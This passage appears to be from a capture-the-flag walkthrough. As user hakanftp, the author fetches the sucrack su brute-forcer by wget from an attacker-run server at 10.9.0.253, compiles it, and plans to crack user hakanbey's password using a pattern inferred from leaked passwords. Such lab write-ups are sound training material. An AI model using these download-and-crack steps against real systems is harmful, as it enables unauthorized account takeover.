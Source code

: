 ```shell
hakanftp@ubuntu:~$ wget http://10.9.0.253:8000/sucrack.zip -O /tmp/sucrack.zip

hakanftp@ubuntu:~$ cd /tmp
hakanftp@ubuntu:/tmp$ unzip sucrack.zip
```

- Install `sucrack`:

```shell
hakanftp@ubuntu:/tmp$ cd sucrack
hakanftp@ubuntu:/tmp/sucrack$ ./configure
[...]
sucrack configuration
---------------------
sucrack version		: 1.2.3
target system           : LINUX
sucrack link flags      : -pthread
sucrack compile flags	: -DSTATIC_BUFFER  -DLINUX -DSUCRACK_TITLE="\"sucrack 1.2.3 (LINUX)\""
hakanftp@ubuntu:/tmp/sucrack$ make
[...]
```

```shell
hakanftp@ubuntu:/tmp/sucrack$ /tmp/sucrack/src/sucrack -h
sucrack 1.2.3 (LINUX) - the su cracker
Copyright (C) 2006  Nico Leidecker; nfl@portcullis-security.com

 Usage: /tmp/sucrack/src/sucrack [-char] [-w num] [-b size] [-s sec] [-u user] [-l rules] wordlist
[...]
 Environment Variables:
   SUCRACK_SU_PATH      : The path to su (usually /bin/su or /usr/bin/su)

   SUCRACK_AUTH_FAILURE : The message su returns on an authentication
                          failure (like "su: Authentication failure" or "su: Sorry")
   SUCRACK_AUTH_SUCCESS : The message that indicates an authentication
                          success. This message must not be a password
                          listed in the wordlist (default is "SUCRACK_SUCCESS")

 Example:
   export SUCRACK_AUTH_SUCCESS="sucrack_says_hello"
   /tmp/sucrack/src/sucrack -a -w 20 -s 10 -u root -rl AFLafld dict.txt
```

**We now can brute force user `hakanbey`!**

But, which wordlist should we use??

**If you look at the FTP user's password and `austrailian-bulldog-ant.jpg` steganography image file's passphrase, it has a pattern:**
```
123adana{Redacted}
123adana{Redacted}
```

It always **starts with `123adana` followed by some words**.
